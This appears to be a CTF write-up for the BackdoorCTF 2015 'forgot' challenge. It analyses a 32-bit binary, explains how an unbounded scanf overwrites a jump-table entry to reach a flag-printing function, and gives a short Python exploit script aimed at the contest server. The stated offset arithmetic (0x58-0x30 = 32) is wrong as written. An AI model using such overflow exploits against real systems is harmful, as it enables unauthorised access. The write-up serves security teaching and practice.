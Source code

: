 Title: forgot
Author: doskop
Date: 2015-04-03 11:36
Tags: CTF


## Introduction

> Fawkes has been playing around with Finite State Automaton lately. While exploring the concept of implementing regular expressions using FSA he thought of implementing an email-address validator.

> Recently, Lua started to annoy Fawkes. To this, Fawkes, challenged Lua to a battle of wits. Fawkes promised to reward Lua, only if she manages to transition to a non-reachable state in the FSA he implemented. The replication can be accessed here.

Download the binary: [forgot]({filename}/downloads/backdoorctf-2015/forgot).

Not going to spend too much time on this write-up, it's rather simple really.

## Analysis

    $ file forgot
    forgot: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=35930a2d9b048236694e9611073b759e1c88b8c4, stripped
    
    $ readelf -hl forgot|egrep "Type|GNU_STACK"
    Type: EXEC (Executable file)
    Type Offset VirtAddr PhysAddr FileSiz MemSiz Flg Align
    GNU_STACK 0x000000 0x00000000 0x00000000 0x00000 0x00000 RW 0x10

Non executable stack, no symbols. Let's poke it and see what it does.

    $ ./forgot 
    What is your name?
    > CED
    
    Hi CED
    
    
                Finite-State Automaton
    
    I have implemented a robust FSA to validate email addresses
    Throw a string at me and I will let you know if it is a valid email address
    
                    Cheers!
    
    I should give you a pointer perhaps. Here: 8048654
    
    Enter the string to be validate
    > CED
    Dude, you seriously think this is going to work. Where are the fancy @ and [dot], huh?

## Exploitation

Ok, it leaks a pointer to the code segment. That's good fun and all but pretty useless. Let's open it up in a disassembler and browse around for a bit. You'll notice a function that calls system("cat ./flag") at 0x080486cc so that's probably where we want to end up.

Now let's look at the main function. It starts by setting up a jump table at esp+0x30 starting with a function that prints an error message about the email address not containing an '@' symbol. It uses fgets to read your name to esp+0x58 at a maximum of 0x20 characters, that's not very useful. It uses scanf("%s") to read the email address to esp+0x10. We can use that to overwrite the first entry of the jump table at esp+0x30 and jump to the flag reading function.

So, we first write 0x58-0x30 = 32 bytes of A's and then the pointer value of the flag reading function.

    #!/usr/bin/env python
    from pwny import *
    target.assume(ELF('forgot'))
    
    #f = Flow.execute('./forgot')
    f = Flow.connect_tcp('hack.bckdr.in', 8009)
    f.until('\n> ')
    f.writeline('CED')
    f.until('\n> ')
    f.writeline('A' * 32 + P(0x080486cc))
    f.read_eof(echo=True)
